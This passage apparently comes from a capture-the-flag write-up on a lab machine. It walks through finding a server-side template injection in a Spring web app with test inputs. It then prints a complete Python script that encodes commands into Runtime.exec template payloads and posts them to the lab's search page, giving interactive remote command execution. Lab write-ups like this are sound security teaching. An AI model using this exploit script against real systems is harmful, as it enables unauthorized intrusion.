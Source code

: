 Inputting `*{7*7}` gives cleaner output. But inputting `*{7*'7'}` we get an error page. This shows us that the program is not a Python program. We google the text on the error page and find that it is used in SpringFramework : [https://www.yawintutor.com/application-has-no-explicit-mapping-for-error-whitelabel-error-page-with-status-404/](https://www.yawintutor.com/application-has-no-explicit-mapping-for-error-whitelabel-error-page-with-status-404/)

We can find a SpringFramework’s SSTI cheatsheet here: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md)

We test if it works with `*{"dfd".replace("d","x")}` 

![Input2](/assets/img/posts/htb-redpanda/search2.png)

Some testing leads to the fact that characters like _ and % are banned.

## User flag

We now want to get a reverse shell. We can do this by using an automation script we found online: 

```bash
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```
